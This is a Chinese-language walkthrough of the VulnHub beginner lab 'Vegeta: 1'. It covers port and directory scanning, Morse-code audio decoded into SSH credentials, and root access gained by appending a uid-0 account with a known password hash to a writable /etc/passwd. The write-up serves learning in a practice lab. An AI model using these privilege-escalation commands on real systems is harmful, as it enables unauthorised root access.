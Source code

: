 # Vegeta: 1

2024-5-21 https://www.vulnhub.com/entry/vegeta-1,501/

difficulty: BEGINNER

## IP

192.168.5.29

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 1f3130673f08302e6daee3209ebd6bba (RSA)
|   256 7d8855a86f56c805a47382dcd8db4759 (ECDSA)
|_  256 ccdede4e84a891f51ad6d2a62e9e1ce0 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
```

80 web 首页是张赛亚人图片，源代码没其他信息，使用 gobuster 进行扫描：

```
gobuster dir -t 64 -u http://192.168.5.29/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -e

http://192.168.5.29/index.html           (Status: 200) [Size: 119]
http://192.168.5.29/login.php            (Status: 200) [Size: 0]
http://192.168.5.29/img                  (Status: 301) [Size: 310] [--> http://192.168.5.29/img/]
http://192.168.5.29/image                (Status: 301) [Size: 312] [--> http://192.168.5.29/image/]
http://192.168.5.29/admin                (Status: 301) [Size: 312] [--> http://192.168.5.29/admin/]
http://192.168.5.29/manual               (Status: 301) [Size: 313] [--> http://192.168.5.29/manual/]
http://192.168.5.29/robots.txt           (Status: 200) [Size: 11]
http://192.168.5.29/bulma                (Status: 301) [Size: 312] [--> http://192.168.5.29/bulma/]
```

http://192.168.5.29/robots.txt 显示:

```
*
/find_me
```

访问下 /find_me 目录，看看有什么，在 html 源代码的最底部，发现一串 base64 字符串，进行解码后没看出什么内容，这里暂时没思路，也有可能是坑。

http://192.168.5.29/bulma 中有一个 hahahaha.wav 的音频，是一段摩尔斯电码，尝试进行解密，直接利用了网上在线的解密平台 https://morsecode.world/international/decoder/audio-decoder-adaptive.html，将wmv音频上传，解码后得到明文:

```
USER : TRUNKS PASSWORD : US3R <KN> S IN DOLLARS SYMBOL)
```

像是个 ssh 的密钥，但是需要把 S 替换成 $ 符号。trunks:u$3r 登陆成功。

进行系统枚举，sudo 和 suid 都没有特别的程序，crontab 中也没有自定义的系统任务。

当前目录发现.bash_history 文件：

```
trunks@Vegeta:~$ cat .bash_history
perl -le ‘print crypt(“Password@973″,”addedsalt”)’
perl -le 'print crypt("Password@973","addedsalt")'
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd[/sh]
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
ls
su Tom
ls -la
cat .bash_history
sudo apt-get install vim
apt-get install vim
su root
cat .bash_history
exit
```

/etc/passwd 中没有 tom 这个用户，但是可能 root 的密码还是:Password@973，尝试后发现不对。

查看/etc/passwd 权限：

```
trunks@Vegeta:/$ ls -al /etc/passwd
-rw-r--r-- 1 trunks root 1486 Jun 28  2020 /etc/passwd
```

结果我们有写入权限，所以直接像上面的内容一样，添加一个超级用户，凭据为 tom:123 ：

```
trunks@Vegeta:/$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1

echo 'tom:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:User_like_root:/root:/bin/bash' >> /etc/passwd

trunks@Vegeta:/$ su tom
Password:
root@Vegeta:/# cd /root
root@Vegeta:~# ls
root.txt
root@Vegeta:~# cat root.txt

                               ,   ,'|
                             ,/|.-'   \.
                          .-'  '       |.
                    ,  .-'              |
                   /|,'                 |'
                  / '                    |  ,
                 /                       ,'/
              .  |          _              /
               \`' .-.    ,' `.           |
                \ /   \ /      \          /
                 \|    V        |        |  ,
                  (           ) /.--.   ''"/
                  "b.`. ,' _.ee'' 6)|   ,-'
                    \"= --""  )   ' /.-'
                     \ / `---"   ."|'
  V E G I I T A       \"..-    .'  |.
                       `-__..-','   |
                     _.) ' .-'/    /\.
               .--'/----..--------. _.-""-.
            .-')   \.   /     _..-'     _.-'--.
           / -'/      """""""""         ,'-.   . `.
          | ' /                        /    `   `. \
          |   |                        |         | |
           \ .'\                       |     \     |
          / '  | ,'               . -  \`.    |  / /
         / /   | |                      `/"--. -' /\
        | |     \ \                     /     \     |
 	 | \      | \                  .-|      |    |


Hurray you got root

Share your screenshot in telegram : https://t.me/joinchat/MnPu-h3Jg4CrUSCXJpegNw
```

